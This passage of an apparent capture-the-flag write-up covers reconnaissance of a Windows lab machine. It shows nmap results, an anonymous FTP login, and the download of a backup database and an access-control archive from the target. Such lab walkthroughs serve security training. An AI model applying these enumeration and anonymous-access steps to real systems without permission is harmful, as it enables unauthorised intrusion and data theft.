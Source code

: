 ```bash
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 180.91 seconds
```

- 3 ports are open : ftp(21), telnet(23), http(80)
- ftp(21) allows anonymous login.
- Let's take a look at the ftp service first.

### ftp(21)

Let's try anonymous login first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ftp anonymous@10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
226 Transfer complete.
```

There are two directories existing : `Backups`, `Engineer`
Let's download files.

```bash
┌──(kali㉿kali)-[~/htb/ftp]
└─$ ftp anonymous@10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service

ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |******************************|  5520 KiB  469.04 KiB/s    00:00 ETA
226 Transfer complete.

ftp> get Access\ Control.zip
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |******************************| 10870       28.59 KiB/s    00:00 ETA
226 Transfer complete.
```
